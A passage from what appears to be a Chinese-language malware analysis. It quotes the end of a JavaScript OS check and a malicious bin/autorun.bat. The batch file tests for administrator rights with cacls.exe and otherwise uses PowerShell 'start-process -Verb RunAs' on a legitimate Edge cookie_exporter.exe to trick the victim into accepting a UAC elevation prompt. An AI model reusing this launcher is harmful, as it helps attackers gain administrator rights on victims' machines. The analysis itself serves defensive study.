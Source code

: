 ```plain
        console.log(
          "\x1b[31m%s\x1b[0m",
          "This script is running on Linux. Please run on Windows Server OS."
        );
      } else {
        console.log(
          "\x1b[31m%s\x1b[0m",
          "This script is running on an unrecognized OS. Please run on Windows Server OS."
        );
      }
    }
  };
```

bin/autorun.bat 脚本首先通过执行“C:\\Windows\\System32\\cacls.exe C:\\Windows\\System32\\config\\system”来判断当前用户是否拥有管理员权限，如果没有管理员权限则会进一步尝试通过执行 powershell 命令”powershell start-process ".\\app\\cookie\_exporter.exe" -Verb RunAs”来运行 bin/app/Cookie\_export.exe，该程序是合法的 Microsoft Edge 浏览器官方程序，主要目的是用来触发来用户账户控制（UAC）提示，并尝试欺骗受害者运行使用管理员权限来执行 bin/app/Cookie\_export.exe。

[![](assets/1710900786-c1917123e3cf02470aa295b363497c7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229154517-7b61e900-d6d6-1.png)

```plain
@echo off

pushd %~dp0

:: echo %~dp0
:: Check for administrator privileges
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

:: If the previous command returned with an error, ask for elevated permissions
if %errorlevel% neq 0 (
    :: echo Requesting administrative privileges...
    :: Prompt for UAC elevation
    powershell start-process ".\app\cookie_exporter.exe" -Verb RunAs
    exit /b
)

:: The rest of your script goes here with administrator privileges

popd
```
